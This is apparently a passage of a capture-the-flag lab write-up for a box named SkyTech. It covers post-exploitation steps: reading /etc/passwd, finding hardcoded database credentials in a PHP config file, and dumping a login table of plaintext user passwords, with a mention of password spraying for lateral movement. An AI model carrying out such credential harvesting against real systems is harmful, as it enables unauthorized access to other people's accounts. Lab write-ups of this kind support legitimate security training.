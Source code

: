 ```
john:x:1000:1000:john,,,:/home/john:/bin/bash
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
bash-4.2$ 



```

## Lateral movement
under config file i can see the password and username of the database;
```
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}



```
Lets try and try to spray the passwords

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> use skytech
ERROR 1049 (42000): Unknown database 'skytech'
mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

```